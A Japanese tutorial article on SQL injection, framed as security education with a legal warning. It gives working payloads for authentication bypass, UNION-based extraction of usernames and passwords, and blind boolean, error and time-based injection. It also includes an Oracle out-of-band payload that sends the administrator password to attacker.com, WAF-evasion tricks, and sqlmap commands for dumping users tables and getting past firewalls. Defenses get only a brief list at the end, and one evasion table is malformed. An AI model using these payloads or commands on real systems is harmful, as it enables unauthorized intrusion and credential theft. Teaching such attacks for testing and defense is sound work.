

:::message alert
**重要な法的注意事項**

本記事で紹介する技術は、セキュリティ教育および自身が管理するシステムでの脆弱性診断を目的としたものです。**許可なく他者のシステムに対してこれらの技術を使用することは、不正アクセス禁止法等の法律に違反し、刑事罰の対象となります。**

- 必ず事前に書面による許可を得てください
- 自身が所有・管理するシステム、または許可されたテスト環境でのみ使用してください
- 本記事の内容を悪用した場合、筆者は一切の責任を負いません
  :::

## 1. SQLインジェクション概要

### 1.1 SQLインジェクションとは

SQLインジェクション(SQLi)は、攻撃者がアプリケーションのデータベースクエリに干渉できるWebセキュリティ脆弱性です。攻撃者は本来アクセスできないデータの閲覧、変更、削除が可能になります。

### 1.2 基本的な攻撃の仕組み

正常なクエリの例:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

攻撃を受けたクエリの例:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

`--`はSQLコメントで、以降の条件を無効化します。`1=1`は常に真となるため、全ての商品が表示されます。

### 1.3 発生箇所

SQLインジェクション脆弱性は、SELECTクエリのWHERE句で最も頻繁に発生しますが、UPDATE文、INSERT文、ORDER BY句など、様々な箇所で発生する可能性があります。

## 2. SQLインジェクションの攻撃種別

### 2.1 WHERE句を利用した基本的な攻撃

#### 隠しデータの取得

攻撃ペイロード:

```
https://example.com/products?category=Gifts'+OR+1=1--
```

#### 認証バイパス

ログイン機能での攻撃例:

```sql
-- usernameフィールドに入力
administrator'--

-- 結果のクエリ
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

パスワードチェックがコメントアウトされ、認証をバイパスできます。

### 2.2 UNION-based攻撃

UNIONキーワードを使用すると、追加のSELECTクエリを実行し、その結果を元のクエリに追加できます。

#### 攻撃の要件

1. **カラム数の一致**: 個々のクエリが同じ数のカラムを返す必要がある
2. **データ型の互換性**: 各カラムのデータ型が互換性を持つ必要がある

#### カラム数の特定方法

**方法1: ORDER BY句を使用**

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

指定したカラムインデックスが実際のカラム数を超えると、データベースがエラーを返します。

**方法2: NULL値を使用**

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

NULLはどのデータ型にも変換可能なため、エラーが発生しなくなったらカラム数が判明します。

#### データの抽出

```sql
-- データベース別の文字列結合構文
-- Oracle
' UNION SELECT username || '~' || password FROM users--

-- MySQL
' UNION SELECT CONCAT(username,'~',password) FROM users--

-- Microsoft SQL Server
' UNION SELECT username + '~' + password FROM users--
```

### 2.3 Blind SQLインジェクション

Blind SQLインジェクションとは、クエリの結果がアプリケーションのレスポンスに返されない場合を指します。

#### 2.3.1 条件応答を利用した攻撃(Boolean-based)

アプリケーションの動作の違いを利用してデータを推測する手法です。

```sql
-- 真の条件
' AND '1'='1

-- 偽の条件
' AND '1'='2
```

レスポンスの違い(例: "Welcome back"メッセージの有無)から情報を抽出します。

**データの抽出例:**

```sql
-- administratorユーザーの存在確認
' AND (SELECT 'a' FROM users WHERE username='administrator')='a'--

-- パスワードの1文字目を推測
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'--
```

#### 2.3.2 条件エラーを利用した攻撃(Error-based)

エラーの有無を利用してデータを推測する手法です。

**Oracleでの例:**

```sql
-- 条件に基づくエラー発生
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'

-- パスワードの1文字目を取得
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

#### 2.3.3 時間遅延を利用した攻撃(Time-based)

アプリケーションの動作が変化しない場合、時間遅延を利用して情報を推測します。

**主要データベースの時間遅延構文:**

| データベース         | コマンド                              |
| -------------------- | ------------------------------------- |
| PostgreSQL           | `SELECT pg_sleep(10)`                 |
| MySQL                | `SELECT SLEEP(10)`                    |
| Microsoft SQL Server | `WAITFOR DELAY '0:0:10'`              |
| Oracle               | `dbms_pipe.receive_message(('a'),10)` |

**攻撃例(PostgreSQL):**

```sql
'; SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

#### 2.3.4 Out-of-Band (OOB) 攻撃

攻撃者が制御するシステムへのネットワークインタラクションをトリガーすることで、データを抽出する手法です。



**Oracleでの攻撃例:**

```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.attacker.com/"> %remote;]>'),'/l') FROM dual--
```

### 2.4 詳細エラーベース攻撃(Verbose Error-based)

データベースの設定により詳細なエラーメッセージが返される場合、そこから直接データを抽出できることがあります。

```sql
-- 型変換エラーを利用
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

エラーメッセージ例:

```
ERROR: invalid input syntax for type integer: "administrator"
```

このエラーからusernameが"administrator"であることが判明します。

### 2.5 WAF回避のための難読化

WAF(Web Application Firewall)を回避するための主な技術:

| 技術                 | 例                   | 説明                     |
| -------------------- | -------------------- | ------------------------ | ---------- | ------------------ |
| 大文字小文字の混在   | `SeLeCt`             | パターンマッチングを回避 |
| コメントの挿入       | `SEL/**/ECT`         | キーワードを分断         |
| URL エンコーディング | `%53%45%4C%45%43%54` | 16進エンコード           |
| 文字列結合           | `CHAR(117)           |                          | CHAR(115)` | 文字コードから生成 |

## 3. sqlmap

### 3.1 sqlmap概要

sqlmapは、SQLインジェクション脆弱性の検出と悪用を自動化するオープンソースのペネトレーションテストツールです。MySQL、PostgreSQL、Oracle、Microsoft SQL Serverなど、多様なDBMSに対応しています。

### 3.2 基本的な使用方法

#### インストール

```bash
# Gitリポジトリからクローン
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

# アップデート
sqlmap --update
```

#### 基本コマンド

```bash
# URL指定での攻撃
sqlmap -u "https://example.com/page?id=1"

# POSTリクエスト
sqlmap -u "https://example.com/page" --data="id=1&name=test"

# Cookie指定
sqlmap -u "https://example.com/page" --cookie="session=abc123"

# リクエストファイル指定(Burp Suiteと連携)
sqlmap -r request.txt
```

### 3.3 攻撃技術の指定

sqlmapは`--technique`オプションで攻撃手法を指定できます:

| コード | 攻撃種別            | 対応する章 |
| ------ | ------------------- | ---------- |
| B      | Boolean-based blind | 2.3.1      |
| E      | Error-based         | 2.3.2, 2.4 |
| U      | UNION query-based   | 2.2        |
| T      | Time-based blind    | 2.3.3      |
| S      | Stacked queries     | -          |
| Q      | Inline queries      | -          |

```bash
# UNION攻撃のみ実行
sqlmap -u "https://example.com/page?id=1" --technique=U

# Boolean-basedとError-basedを組み合わせ
sqlmap -u "https://example.com/page?id=1" --technique=BE

# Time-basedを除外(高速化)
sqlmap -u "https://example.com/page?id=1" --technique=BEUS
```

### 3.4 データベースの列挙と抽出

```bash
# データベース一覧
sqlmap -u "https://example.com/page?id=1" --dbs

# テーブル一覧
sqlmap -u "https://example.com/page?id=1" -D database_name --tables

# カラム一覧
sqlmap -u "https://example.com/page?id=1" -D database_name -T users --columns

# データ抽出
sqlmap -u "https://example.com/page?id=1" -D database_name -T users --dump

# 特定カラムのみ抽出
sqlmap -u "https://example.com/page?id=1" -D database_name -T users -C username,password --dump
```

### 3.5 WAF回避(2.5章との連携)

```bash
# WAF検出
sqlmap -u "https://example.com/page?id=1" --identify-waf

# Tamper script使用
sqlmap -u "https://example.com/page?id=1" --tamper=space2comment,randomcase

# WAF回避の推奨設定
sqlmap -u "https://example.com/page?id=1" \
  --random-agent \
  --tamper=space2comment,between \
  --delay=2 \
  --threads=1
```

主要なTamper Scripts:

| Script          | 説明                             |
| --------------- | -------------------------------- |
| `space2comment` | スペースを`/**/`に置換           |
| `randomcase`    | 大文字小文字をランダム化         |
| `between`       | `>`を`NOT BETWEEN 0 AND #`に置換 |
| `charencode`    | パーセントエンコーディング       |

### 3.6 パフォーマンス最適化

```bash
# スレッド数の増加
sqlmap -u "https://example.com/page?id=1" --threads=10

# レベルとリスクの調整(1-5, 1-3)
sqlmap -u "https://example.com/page?id=1" --level=3 --risk=2

# バッチモード(質問に自動回答)
sqlmap -u "https://example.com/page?id=1" --batch

# 既存セッションの利用
sqlmap -u "https://example.com/page?id=1" --resume
```

### 3.7 実践的な攻撃シナリオ

**シナリオ1: 基本的なデータ抽出(UNION攻撃)**

```bash
# 脆弱性検出からデータ抽出まで
sqlmap -u "https://example.com/products?id=1" --technique=U --dbs --batch
sqlmap -u "https://example.com/products?id=1" -D shop_db -T users --dump --batch
```

**シナリオ2: Cookie経由のBlind SQLi**

```bash
sqlmap -u "https://example.com/page" \
  --cookie="TrackingId=xyz" \
  --technique=BT \
  -D database -T users --dump \
  --batch
```

**シナリオ3: WAF回避が必要な環境**

```bash
sqlmap -u "https://example.com/page?id=1" \
  --identify-waf \
  --random-agent \
  --tamper=space2comment,randomcase \
  --delay=3 \
  --level=5 \
  --batch
```

## 4. 防御策

- パラメータ化クエリ(Prepared Statements)の使用が最も効果的
- 入力値の検証とサニタイゼーション
- 最小権限の原則：データベースユーザーに必要最小限の権限のみ付与
- WAFの導入と定期的な脆弱性診断

## まとめ

SQLインジェクションは、機密データの漏洩や改ざん、システムの侵害につながる深刻な脆弱性です。本記事では、基本的な攻撃からBlind SQLインジェクション、sqlmapを使った自動化まで解説しました。

**参考資料:**

- [PortSwigger Web Security Academy - SQL Injection](https://portswigger.net/web-security/sql-injection)
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [sqlmap Documentation](https://github.com/sqlmapproject/sqlmap/wiki)

:::message
セキュリティは攻撃と防御の両面を理解することで向上します。本記事で学んだ知識を、より安全なシステム構築に活かしてください。
:::
